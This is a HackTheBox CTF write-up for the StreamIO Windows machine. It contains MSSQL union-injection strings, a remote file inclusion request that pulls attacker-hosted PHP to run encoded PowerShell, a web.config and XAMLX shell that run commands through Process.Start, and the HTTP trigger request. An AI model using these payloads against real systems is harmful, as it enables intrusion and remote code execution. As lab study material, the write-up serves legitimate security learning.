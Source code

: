 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/3utO6ys2Rhg/0.jpg
layout: post
media_subpath: /assets/posts/2022-09-17-sqli-lfi-to-rce-xamlx-impersonation-streamio-hackthebox
tags:
- active directory
- hackthebox
- seimpersonate
- sql injection
- windows
title: SQLi,  LFI to RCE and Unintended Privesc via XAMLX & Impersonation –
  StreamIO @ HackTheBox
---
```


Additional notes for StreamIO, a medium difficulty Windows machine on HackTheBox that involves manual MSSQL Injection, going from file inclusion to RCE and in this case getting the SeImpersonate privilege back to get SYSTEM via an EFS-based potato.

{% youtube 3utO6ys2Rhg %}

## Notes

**SQLi**

```
q=admin' union select 1,2,3,4,5-- 
q=admin' union select 1,2,3,4,5,6-- 
q=admin' union select 1,@@version,3,4,5,6--  
q=admin' union select 1, STRING_AGG(name, ', '),3,4,5,6 from master..sysdatabases--
q=admin' union select 1, STRING_AGG(name, ', '),3,4,5,6 from  master..sysobjects WHERE xtype = 'U'--
q=admin' union select 1, STRING_AGG(CONCAT(table_name,'.',column_name), ', '),3,4,5,6 from  information_schema.columns--
```

**RCE**

```
# Content of "x", hosted on the attacker machine
system("powershell -exec bypass -enc JAB...");

# Request
curl -H 'Cookie: PHPSESSID=r3apd30esr2a8c1kt0vfnmd6qn' -sk -X POST -d 'include=http://10.10.14.9/x' https://streamio.htb/admin/?debug=master.php
```

**XAMLX & Web.config to RCE**

[Getting Shells with XAMLX Files](https://research.nccgroup.com/2019/08/23/getting-shell-with-xamlx-files/)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
 <system.webServer>
 <handlers accessPolicy="Read, Script, Write">
 <add name="xamlx" path="*.xamlx" verb="*" type="System.Xaml.Hosting.XamlHttpHandlerFactory, System.Xaml.Hosting, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" modules="ManagedPipelineHandler" requireAccess="Script" preCondition="integratedMode" />
 <add name="xamlx-Classic" path="*.xamlx" verb="*" modules="IsapiModule" scriptProcessor="%windir%\Microsoft.NET\Framework64\v4.0.30319\aspnet_isapi.dll" requireAccess="Script" preCondition="classicMode,runtimeVersionv4.0,bitness64" />
 </handlers>
 <validation validateIntegratedModeConfiguration="false" />
 </system.webServer>
</configuration>
```

**Shell.xaml**

```xml
<WorkflowService ConfigurationName="Service1" Name="Service1" xmlns="http://schemas.microsoft.com/netfx/2009/xaml/servicemodel" xmlns:p="http://schemas.microsoft.com/netfx/2009/xaml/activities" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:p1="http://schemas.microsoft.com/netfx/2009/xaml/activities" >
 <p:Sequence DisplayName="Sequential Service">
 <TransactedReceiveScope Request="{x:Reference __r0}">
 <p1:Sequence >
 <SendReply DisplayName="SendResponse" >
 <SendReply.Request>
 <Receive x:Name="__r0" CanCreateInstance="True" OperationName="SubmitPurchasingProposal" Action="testme" />
 </SendReply.Request>
 <SendMessageContent>
 <p1:InArgument x:TypeArguments="x:String">[System.Diagnostics.Process.Start("cmd.exe", "/c powershell -exec bypass -enc JAB...").toString()]</p1:InArgument>
 </SendMessageContent>
 </SendReply>
 </p1:Sequence>
 </TransactedReceiveScope>
 </p:Sequence>
</WorkflowService>
```

**Trigger**

```
POST /test.xamlx HTTP/1.1
Host: 10.10.11.158
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
SOAPAction: testme
Content-Length: 88

<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Body/></s:Envelope>
```

## Resources

- <https://github.com/CCob/SweetPotato>
